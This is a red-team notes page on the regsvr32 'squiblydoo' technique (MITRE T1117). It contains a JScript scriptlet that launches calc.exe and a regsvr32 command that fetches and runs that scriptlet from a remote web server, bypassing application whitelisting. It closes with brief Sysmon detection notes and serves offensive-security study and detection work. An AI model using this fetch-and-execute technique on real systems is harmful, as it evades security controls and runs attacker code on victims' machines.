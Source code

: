 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# T1117: regsvr32

## Execution

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We need to host the back.sct on a web server so we can invoke it like so:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, the evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline logging may help you detect this activity:

![](../.gitbook/assets/regsvr32-commandline.png)

Additionally, of course sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1117" %}

